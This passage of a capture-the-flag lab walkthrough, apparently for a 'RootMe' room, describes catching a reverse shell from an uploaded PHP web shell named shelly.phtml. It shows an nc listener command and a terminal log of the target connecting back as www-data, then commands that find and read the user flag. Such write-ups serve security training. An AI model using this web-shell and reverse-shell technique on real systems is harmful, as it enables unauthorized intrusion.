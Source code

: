 ![](Screenshot_4.png)

___Step 3.5.:___ shelly.phtml now waits at <attack_box_ip>/uploads to be executed

___Step 3.6.:___ set up the listener
```bash
nc -nlvp <port>
```
___Step 3.7.1.:___ after shelly.phtml opens the door, get in politely ...
___Step 3.7.2.:___ ... ask the existential question first, and then kindly ask the other questions ...

```bash
root@ip<attack_box>:~# nc -nlvp <port>
Listening on 0.0.0.0 <port>
Connection received on <target_ip> 32788
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:13:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd 
/
$ find -name user.txt 2>/dev/null
./var/www/user.txt
$ cat /var/www/user.txt

```
... and get the answer